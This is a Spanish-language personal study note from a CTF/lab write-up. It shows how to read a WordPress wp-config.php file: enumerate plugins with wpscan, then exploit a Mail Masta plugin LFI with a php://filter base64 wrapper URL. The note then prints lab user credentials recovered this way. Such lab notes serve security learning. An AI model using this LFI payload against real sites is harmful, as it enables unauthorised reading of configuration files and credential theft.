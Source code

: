 Dentro de los wordpress hay un fichero de configuración donde se guardan credenciales de los usuarios registrados; y podemos llegar a él explotando distintas vulnerabilidades, como un LFI detectando primero un plugin vulnerable con wpscan en la máquina [[MAQUINA ALL IN ONE (Fuzzing web, vulnerabilidad mail masta LFI con wrapper, revershe shell modificando fichero fotter.php y escalada de privilegios con tarea prgramada)]]
```bash
wpscan --url http://10.10.123.20/wordpress/ -e p
```
Y encontramos este que es vulnerable:
![[Mis apuntes/ANEXOS/Pasted image 20230825163230.png]]
Tenemos un script

```bash
https://wpscan.com/vulnerability/8609
```
![[Mis apuntes/ANEXOS/Pasted image 20230825164108.png]]
Lo probamos en el navegador y funciona:
![[Mis apuntes/ANEXOS/Pasted image 20230825164125.png]]
Pero si queremos obtener el fichero wp-config.php, tenemos que hacer uso de un wrapper:
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```
![[Mis apuntes/ANEXOS/Pasted image 20230826170029.png]]
Esto lo tenemos que decodificar ya que viene en base64:
![[Mis apuntes/ANEXOS/Pasted image 20230826170206.png]]
Y vemos las credenciales del usuario elyana:
```bash
elyana:H@ckme@123
```

